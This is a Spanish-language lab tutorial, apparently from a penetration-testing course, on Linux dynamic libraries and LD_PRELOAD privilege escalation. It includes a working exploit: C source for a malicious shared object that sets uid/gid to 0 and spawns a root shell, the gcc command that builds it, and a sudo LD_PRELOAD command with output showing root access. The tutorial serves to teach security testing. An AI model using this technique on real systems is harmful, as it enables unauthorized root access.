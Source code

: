 Es común que los programas de Linux utilicen bibliotecas de objetos compartidos vinculados dinámicamente (dynamically linked shared object libraries). Las bibliotecas contienen código compilado u otros datos que los desarrolladores utilizan para evitar tener que reescribir las mismas piezas de código en múltiples programas. Existen dos tipos de bibliotecas en Linux: `static libraries` (denotadas por la extensión de archivo .a) y `dynamically linked shared object libraries` (denotadas por la extensión de archivo .so). Cuando se compila un programa, las static libraries se convierten en parte del programa y no pueden ser alteradas. Sin embargo, las bibliotecas dinámicas (dynamic libraries) pueden ser modificadas para controlar la ejecución del programa que las llama.

Existen múltiples métodos para especificar la ubicación de las bibliotecas dinámicas (dynamic libraries), para que el sistema sepa dónde buscarlas durante la ejecución del programa. Esto incluye las flags `-rpath` o `-rpath-link` al compilar un programa, el uso de las variables ambientales `LD_RUN_PATH` o `LD_LIBRARY_PATH`, colocar las bibliotecas en los directorios predeterminados `/lib` o `/usr/lib`, o especificar otro directorio que contenga las bibliotecas dentro del archivo de configuración `/etc/ld.so.conf`.

Además, la variable de entorno `LD_PRELOAD` puede cargar una biblioteca antes de ejecutar un binario. Las funciones de esta biblioteca tienen preferencia sobre las predeterminadas. Los objetos compartidos requeridos por un binario se pueden ver utilizando la utilidad `ldd`.

```r
htb_student@NIX02:~$ ldd /bin/ls

	linux-vdso.so.1 =>  (0x00007fff03bc7000)
	libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f4186288000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4185ebe000)
	libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f4185c4e000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f4185a4a000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f41864aa000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f418582d000)
```

La imagen anterior enumera todas las bibliotecas requeridas por `/bin/ls`, junto con sus rutas absolutas.

---

## LD_PRELOAD Privilege Escalation

Vamos a ver un ejemplo de cómo podemos utilizar la variable de entorno [LD_PRELOAD](https://blog.fpmurphy.com/2012/09/all-about-ld_preload.html) para escalar privilegios. Para esto, necesitamos un usuario con privilegios `sudo`.

```r
htb_student@NIX02:~$ sudo -l

Matching Defaults entries for daniel.carter on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User daniel.carter may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/apache2 restart
```

Este usuario tiene derechos para reiniciar el servicio Apache como root, pero como esto `NO` es un [GTFOBin](https://gtfobins.github.io/#apache) y la entrada en `/etc/sudoers` está escrita especificando la ruta absoluta, esto no podría usarse para escalar privilegios en circunstancias normales. Sin embargo, podemos explotar el problema de `LD_PRELOAD` para ejecutar un archivo de biblioteca compartida personalizado. Vamos a compilar la siguiente biblioteca:

```r
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

Podemos compilar esto de la siguiente manera:

```r
htb_student@NIX02:~$ gcc -fPIC -shared -o root.so root.c -nostartfiles
```

Finalmente, podemos escalar privilegios utilizando el comando a continuación. Asegúrate de especificar la ruta completa a tu archivo de biblioteca maliciosa.

```r
htb_student@NIX02:~$ sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart

id
uid=0(root) gid=0(root) groups=0(root)
```